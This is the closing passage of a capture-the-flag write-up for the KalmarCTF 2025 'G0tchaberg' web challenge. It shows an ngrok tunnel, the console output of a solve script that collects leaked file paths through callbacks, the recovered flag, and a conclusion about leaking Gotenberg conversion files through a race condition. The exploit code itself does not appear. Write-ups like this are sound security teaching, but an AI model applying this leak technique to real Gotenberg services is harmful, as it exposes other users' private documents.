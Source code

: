 <details><summary markdown="span"><strong>index.html</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.12|20:56:01(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:14502 -> localhost:5000                               
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.12|20:56:15(HKT)]
└> python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.3.203:5000
Press CTRL+C to quit
127.0.0.1 - - [12/Mar/2025 20:56:18] "GET /flag?path=undefined HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:19] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:20] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:21] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:22] "GET /flag?path= HTTP/1.1" 200 -
[+] Current conversion UUID: 310f447e-eb2c-4af2-b881-99a03c8c2f7f
[*] Possible flag UUID: ae16d4c7-9ec8-4702-b682-caf7715ca2a5 | Date: 2025-03-12 12:56:20
[*] Possible flag UUID: c4d72581-6a9f-44c7-8f30-add862d99291 | Date: 2025-03-12 12:56:17
[*] Selected UUID that has the latest modification date, as it is most likely is the flag process: ae16d4c7-9ec8-4702-b682-caf7715ca2a5
127.0.0.1 - - [12/Mar/2025 20:56:24] "GET /flag?path=undefined HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:25] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:26] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:27] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
[-] Unable to find the flag. Maybe we embeded the wrong flag path. Or, the PDF to text is messed up. Here's the converted text:
/tmp/3b7a0869-2137-4b1 1-a5ac-e51f7fe37e8b/c4d72581-6a9f-44c7-8f30-add862d99291/index.html
Very private information!
kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?
_we_would_appr eciate_if_you_cr eate_a_ticket_with_your_solution}
```

- Flag: **`kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?_we_would_appreciate_if_you_create_a_ticket_with_your_solution}`**

## Conclusion

What we've learned:

1. Leak Gotenberg processing files via race condition